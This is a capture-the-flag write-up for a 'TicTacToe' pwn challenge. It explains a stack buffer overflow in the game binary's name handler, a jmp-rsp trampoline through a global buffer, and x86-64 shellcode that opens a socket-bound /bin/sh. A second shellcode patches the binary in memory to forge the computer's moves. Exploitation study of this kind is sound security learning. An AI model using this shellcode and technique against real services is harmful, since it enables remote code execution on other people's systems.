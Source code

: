 ### TicTacToe #pwn

#### inputs 

- `tictactoe ` - ELF 64-bit LSB executable, x86-64 (game frontend) 
- `server.py` - server code (game backend)

#### recon

After connecting to provided host we can see implementation of tic tac toe game:

```console
$ nc pwn-tictactoe.ctfz.one 8889
Welcome to tictactoe game! Please, enter your name: elkle%po
                                                                     
+---+---+---+    Session: emdBER4MYfNbqYJZzxyn9StjbFvP1OdS           
|   |   |   |                                                        
| X |   |   |     Player: elkle%po                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   |   |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9):
```

So we have to win 100 games to get the flag. After some manual tries I was not able to win a single game (no surprise here - it's `pwn` task :) ).

Next, I jumped to server code analysis and reverse engineering (symbols were not stripped so it was quite easy). That's how, in simplified way, the game infrastructure works:

```
+-------------------------------player------+
|                                           |
+-------------------------------------------+
  |                    ^
  |                    | board state
  | human_move         | [next/win/lose/flag]
  |                    |
  v                    |
+-------------------------------tictactoe---+
| board_state                               |
+-------------------------------------------+
  |                    ^
  | session_x_id       | [next/win/lose/flag]
  | human move         | board state
  | computer move      |
  v                    |
+-------------------------------server.py---+
| +-session_x----+                          |
| | games won    |                          |
| | board state  |                          |
| +--------------+                          |
+-------------------------------------------+

```

`tictactoe` gets human move and computes computer move basing on board state after human move.

Both human move and computer move are sent to `server.py` (most probably on different machine) which is responsible for moves validation, win/lose decision and informing `tictactoe` that user won 100 games and the flag is available.

When flag availability is signaled, `tictactoe` is sending "get flag" request to `server.py` which sends flag back if 100 games were won (for simplicity - this call is omitted on above diagram).

It is impossible for user to communicate to `server.py` directly so we have to exploit `tictactoe`.

#### tictactoe exploitation

 ```console
$ checksec --file ./tictactoe
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
 ```

Ok, so there are literally no exploit mitigations in `tictactoe`, that would make things much easier.

My initial idea was to get remote shell and execute my "malicious" version of `tictactoe` written in python or just simply redirect crafted input to `nc`.

There is a pretty big buffer overflow in `get_name()` function:

```c
int get_name()
{
	...
  	char tmp_name[16];
  	...
  	// recv up to 2048 bytes from socket and store them in `tmp_name`
	recv_session_count = recv_all(psock, tmp_name, 2048);
	...
	// `name` is a global variable at fixed address.
	strcpy(name, tmp_name);
	...
}
```

We can control function return address, but there is no obvious "instant win" location. 

We're not able to leak any memory (at this point) so there is no option to leak `libc` address and use its code for ROP.

But there is RWX stack. We may provide 2048 bytes of shellcode, but it is required to find an option to redirect execution to it. Unfortunately, due to ASLR, it is not possible (without lucky guess) to set return address to `tmp_name`. 

We have to find the gadget like: `push rsp; ret`, `jmp rsp` or something similar, but unfortunately `tictactoe` does not contain such gadgets.

Because `tictactoe` is not PIE executable, all global variables are always at fixed address and all RW sections are actually RWX sections during runtime. 

Looking at `get_name()` code we can see an opportunity - `tmp_name` is copied to global variable `name`. The idea to get remote code execution is to send following payload:

 `asm('jmp rsp') + padding + 'name' address + shellcode`

Which will cause `jump rsp` opcode to be copied under `name` address and function return address will be overwritten with `name` address. During `get_name()` stack unwinding, `ret` function will set `rip` to `name` address, executing `jump rsp` afterwards and `rip` will point to executable stack with our shellcode.

Using this method I was able to execute shellcode:

```assembly
mov r13, [0x0405720] # `psock` address
mov rdi, r13
mov rsi, 0
mov rax, 33
syscall     # dup2(psock, stdin)

mov rdi, r13
mov rsi, 1
mov rax, 33
syscall     # dup2(psock, stdout)

mov rdi, r13
mov rsi, 2
mov rax, 33
syscall     # dup2(psock, stderr)

mov rdi, r13
mov rax, 3
syscall     # close(psock)

xor     rdx, rdx
mov     rbx, 0x68732f6e69622f2f
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b
syscall     # execve("/bin/sh", ["/bin/sh"], NULL)
```

Success, I had remote shell!  But...

Unfortunately, the shell had extremely limited functionalities and I had no idea on how to execute my python code there or transfer and execute other binaries. There was no `python`, `nc`, `base64` or any other "standard" tools. I know that it was possible for some bash magicians, but I'm not one of them :(

I decided to take another approach, Let's look at `process_game_situation()` function:

```c
int __cdecl process_game_situation(char *board, int *comp_move, int *human_move)
{
    ...
	*comp_move = get_computer_move(board);
	...
    *human_move = get_human_move(board);
	...
}
```

What if we change its code to look as follows:

```c
int __cdecl process_game_situation(char *board, int *comp_move, int *human_move)
{
    ...
	*comp_move = get_human_move(board); // get_computer_move -> get_human_move
	...
    *human_move = get_human_move(board);
	...
}
```

We would be able to provide not only our moves, but also computer moves. I used remote code execution payload described earlier with following shellcode:

```assembly
mov rdi, 0x400000
mov rsi, 0x5000
mov rdx, 0x7
mov rax, 10
syscall     # mprotect(0x400000, 0x5000, 0x7[RWX])

mov BYTE PTR [0x401c86], 0xe8   # change:
mov BYTE PTR [0x401c87], 0x9f   # 0x401C86: call get_computer_move
mov BYTE PTR [0x401c88], 0xfd   # to
mov BYTE PTR [0x401c89], 0xff   # 0x401C86: call get_human_move
mov BYTE PTR [0x401c8a], 0xff   # offset calculation done manually

push 0x0401D32
ret         # return to process_game()
```

Worked as expected, I was able to provide both mine and computer moves. Winning 100 games witch such a cheat was pretty easy!

> ctfzone{h3r3_w3_g0_4g41n_t1c_t4c_t03_1z_4_n1z3_g4m3}

[exploit.py](./exploit.py) contains code for both remote shell (`gimme_shell()`) and flag exploit (`gimme_flag()`).
